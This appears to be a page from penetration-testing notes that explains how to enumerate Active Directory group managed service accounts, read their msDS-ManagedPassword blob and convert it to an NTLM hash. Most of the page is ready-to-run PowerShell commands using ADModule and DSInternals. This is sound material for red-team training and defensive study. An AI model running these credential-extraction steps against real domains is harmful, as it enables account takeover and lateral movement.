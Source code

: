 # Methodology
>1. Enumerate managed service accounts in the domain that have `msDS-GroupManagedServiceAccount` object class.
>2. Enumerate principals with the attribute `PrincipalsAllowedToRetrieveManagedPassword` that can read the password blob.
>3. Read the password.
>4. Convert the password to the NTLM hash equivalent since it can't be read.
---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## ADModule
**Find managed service accounts:**
```powershell
Get-ADServiceAccount -Filter *
```

**Find users who can read the password blob:**
```powershell
Get-ADServiceAccount -Identity server1 -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

**Read the blob:**
```powershell
$Passwordblob = (Get-ADServiceAccount -Identity server1 -Properties msDSManagedPassword).'msDS-ManagedPassword'
```

**Convert the password to NTLM hash:**
https://github.com/MichaelGrafnetter/DSInternals/releases
```powershell
Import-Module \DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```
